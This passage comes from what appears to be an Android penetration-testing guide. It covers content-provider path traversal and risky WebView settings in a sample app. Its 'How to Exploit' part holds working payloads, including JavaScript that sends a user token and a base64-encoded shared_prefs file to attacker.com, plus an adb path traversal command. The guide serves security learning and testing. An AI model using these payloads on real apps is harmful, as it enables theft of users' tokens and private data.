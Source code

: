 **Attempt Path Traversal**

```bash
adb shell content read --uri content://com.vulnapp.provider/../../../../etc/hosts
```

***

## `WebView`

**What is it?**

WebView is an Android component that renders web content inside apps. Poor configurations can lead to security vulnerabilities like XSS, token theft, and local file exfiltration.

**What to Look For?**

* **`setJavaScriptEnabled(true)`** → Allows JavaScript execution, leading to potential XSS.
* **`addJavascriptInterface(Object, "interface")`** → Exposes native Android methods to JavaScript, enabling token theft or arbitrary code execution.
* **`setAllowFileAccess(true)` & `setAllowUniversalAccessFromFileURLs(true)`** → Grants WebView access to local files, allowing data exfiltration.
* **`setWebContentsDebuggingEnabled(true)`** → Exposes WebView for debugging, making it easier for attackers to inspect app behavior.
* **Loading URLs from `Intent` or `User Input`** `loadUrl()`→ Allows attackers to inject malicious URLs.

**How to Exploit?**

*   **Trigger WebView with Malicious URL via ADB:**

    ```bash
    adb shell am start -n com.vulnapp/.VulnerableWebView --es url "https://attacker.com/exploit.html"
    ```
*   **Steal User Token using JavaScript Interface:**

    ```javascript
    var token = Android.getUserToken();
    fetch('https://attacker.com/steal?token=' + token);
    ```
*   **Local File Theft using `setAllowUniversalAccessFromFileURLs(true)`**

    ```html
    <script>
      var xhr = new XMLHttpRequest();
      xhr.open('GET', 'file:///data/data/com.vulnapp/shared_prefs/config.xml', true);
      xhr.onload = function() {
          fetch('https://attacker.com/exfil?data=' + btoa(xhr.responseText));
      };
      xhr.send();
    </script>
    ```

***

## `DeepLinks`
